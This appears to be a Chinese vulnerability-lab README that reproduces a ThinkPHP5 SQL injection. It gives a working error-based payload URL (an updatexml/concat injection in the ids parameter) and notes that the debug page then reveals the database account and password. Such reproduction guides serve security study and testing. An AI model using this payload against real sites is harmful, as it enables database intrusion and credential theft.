 # ThinkPHP5 SQL注入漏洞 && 敏感信息泄露

## 漏洞描述

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

## 环境搭建

运行环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞复现

访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![image-20220302151819426](images/202203021518532.png)

当然，这是一个比较鸡肋的SQL注入漏洞。但通过DEBUG页面，我们找到了数据库的账号、密码：

![image-20220302151841408](images/202203021518495.png)

这又属于一个敏感信息泄露漏洞。

